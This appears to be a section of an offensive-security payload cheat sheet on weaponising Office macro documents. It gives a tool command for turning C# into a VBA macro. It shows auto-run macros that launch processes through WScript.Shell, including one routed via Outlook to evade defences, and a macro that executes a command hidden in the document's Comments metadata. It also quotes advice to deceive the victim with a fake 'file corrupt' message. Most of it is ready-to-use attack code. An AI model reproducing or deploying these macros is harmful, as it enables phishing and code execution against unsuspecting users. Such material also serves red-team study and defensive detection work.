 ## DOCM - C# converted to Office VBA macro

> A message will prompt to the user saying that the file is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is tricking the victim to thinking the excel document is corrupted.

https://github.com/trustedsec/unicorn

```ps1
python unicorn.py payload.cs cs macro
```

## DOCM - VBA Wscript

> https://www.darkoperator.com/blog/2017/11/11/windows-defender-exploit-guard-asr-rules-for-office

```ps1
Sub parent_change()
    Dim objOL
    Set objOL = CreateObject("Outlook.Application")
    Set shellObj = objOL.CreateObject("Wscript.Shell")
    shellObj.Run("notepad.exe")
End Sub
Sub AutoOpen()
    parent_change
End Sub
Sub Auto_Open()
    parent_change
End Sub
```

```vb
CreateObject("WScript.Shell").Run "calc.exe"
CreateObject("WScript.Shell").Exec "notepad.exe"
```


## DOCM - VBA Shell Execute Comment

Set your command payload inside the **Comment** metadata of the document.

```vb
Sub beautifulcomment()
    Dim p As DocumentProperty
    For Each p In ActiveDocument.BuiltInDocumentProperties
        If p.Name = "Comments" Then
            Shell (p.Value)
        End If
    Next
End Sub

Sub AutoExec()
    beautifulcomment
End Sub

Sub AutoOpen()
    beautifulcomment
End Sub
```
